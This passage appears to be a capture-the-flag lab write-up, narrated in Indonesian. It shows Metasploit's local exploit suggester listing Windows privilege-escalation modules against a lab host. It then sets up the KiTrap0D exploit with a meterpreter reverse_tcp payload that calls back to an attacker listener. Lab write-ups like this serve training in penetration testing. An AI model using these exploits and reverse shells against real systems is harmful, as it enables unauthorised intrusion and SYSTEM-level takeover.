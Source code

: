 ```bash
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.136.185 - Collecting local exploits for x86/windows...
[*] 10.129.136.185 - 40 exploit checks are being tried...
[+] 10.129.136.185 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

dari hasil tersebut saya mengetahui terdapat banyak kemungkinan untuk melakukan privilege escalation, disini saya akan menggunakan module exploit **exploit/windows/local/ms10_015_kitrap0d**  cara kerja module ini membuat sebuah sesi baru dengan SYSTEM privilege dari exploit KiTrap0D yang dibuat oleh Travis Ormandy

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

```